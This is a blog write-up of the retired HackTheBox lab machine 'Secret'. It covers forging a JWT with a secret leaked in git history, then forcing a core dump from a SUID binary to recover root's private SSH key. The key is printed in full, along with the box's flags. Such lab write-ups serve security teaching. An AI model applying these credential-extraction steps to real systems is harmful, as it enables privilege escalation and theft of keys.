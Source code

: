 Title: HTB: Secret
Date: MM-08-2022 17:44
category:security
tags:security, boot2root, HTB, jwt, core dump
meta:security, boot2root, HTB, jwt, core dump

<img class="align-left" src="/media/2022.xx/secret_card.png" alt="Secret" width="262">

This box is a writeup about a retired HacktheBox machine:
[Secret](https://www.hackthebox.com/home/machines/profile/408) publish on
October 30, 2021 by
[z9fr](https://www.hackthebox.com/home/users/profile/485024).
This box is rated as an easy machine. It implies a JWT token and its secret, as
well as a program core dump.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Only a few ports are open: 22(SSH), 80 (HTTP) and 3000(also an HTTP service
here).

![nmap](./secret_nmap.png)

The website on port 3000, provide an API and its documentation. We can download
the source code from the site. Looking at the different commit we found that
the commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78 "removed .env for security reasons"
might be interesting.

![git log](./secret_gitlog.png)


We look at the `git diff` for this specific commit and found the non redacted
`TOKEN_SECRET` for the application.

![git diff](./secret_gitdiff.png)

We create a python script that allow to interact with the API to create an
account, leveraging the known token secret to change our name to 'theadmin'
using [jwt_tool](https://github.com/ticarpi/jwt_tool)
putting our SSH public key on the box for the 'dasith' user.

[![https://gist.github.com/maggick/af4eb7b8bc2aa3e55e3f8f02400235ee](./secret_l.py.png)](https://gist.github.com/maggick/af4eb7b8bc2aa3e55e3f8f02400235ee)

We can then connect using SSH and get the user flag.

    :::text
    $ ssh dasith@10.129.173.112
    dasith@secret:~$ cat user.txt
    7eb18a62ea270f0da664dac963a7fa05

# Root

Looking at the available file and specifically the SUID ones we found interesting
stuff in `/opt` as there is a `valgrind.log` file, a `code.c` file and a SUID
compiled binary. The presence of the [valgrind](https://valgrind.org/) file
hint us that the binary allow for core dump.

We run the SUID binary and enumerate the `/root/` and the `/root/.ssh/` folders.
There is a private SSH key that we want to retrieve.

    :::text
    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/
    -rw-r--r--      .viminfo
    drwxr-xr-x      ..
    -rw-r--r--      .bashrc
    drwxr-xr-x      .local
    drwxr-xr-x      snap
    lrwxrwxrwx      .bash_history
    drwx------      .config
    drwxr-xr-x      .pm2
    -rw-r--r--      .profile
    drwxr-xr-x      .vim
    drwx------      .
    drwx------      .cache
    -r--------      root.txt
    drwxr-xr-x      .npm
    drwx------      .ssh

    Total entries       = 15
    Regular files       = 4
    Directories         = 10
    Symbolic links      = 1
    Save results a file? [y/N]: n

    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/.ssh/
    drwx------      ..
    -rw-------      authorized_keys
    -rw-------      id_rsa
    drwx------      .
    -rw-r--r--      id_rsa.pub

    Total entries       = 5
    Regular files       = 3
    Directories         = 2
    Symbolic links      = 0
    Save results a file? [y/N]: n

We run the program again and this time we "read" the SSH key. We then put the
program on background with <CTRL+Z> and send a
[Segmentation Fault (SIGSEV)](https://en.wikipedia.org/wiki/Segmentation_fault)
to the application using `kill` and put it back in the foreground generating a
core dump.

    :::text
    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/.ssh/id_rsa

    Total characters = 2602
    Total words      = 45
    Total lines      = 39
    Save results a file? [y/N]: ^Z
    [1]+  Stopped                 ./count
    dasith@secret:/opt$ ps
        PID TTY          TIME CMD
      1377 pts/0    00:00:00 bash
      1427 pts/0    00:00:00 count
      1456 pts/0    00:00:00 ps
    dasith@secret:/opt$ kill -SIGSEGV 1427
    dasith@secret:/opt$ fg
    -bash: fg: job has terminated
    [1]+  Segmentation fault      (core dumped) ./count

We use `appor-unpack` to unpack our core dump file and look for the SSH key in
it.

    :::text
    dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/p
    dasith@secret:/opt$ strings /tmp/p/CoreDump
    <SNIP>
    Save results a file? [y/N]: l words      = 45
    Total lines      = 39
    /root/.ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    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
    -----END OPENSSH PRIVATE KEY-----

We save the SSH key and use it to connect to the box and grab the root flag.

    :::text
    └─$ ssh root@10.129.173.112 -i id_rsa_root
    root@secret:~# cat root.txt
    bb59318145fdf4a7ea1f50e6c829141c

# Wrapping up

An interesting box quit quick if you know what to do! The root part was harder
for me as I never exploited that before.
Also I tested some novelty in this article with the
[carbon](https://carbon.now.sh/) code snippet not sure to keep it that way as it
make it harder to copy paste and grep information from the article.

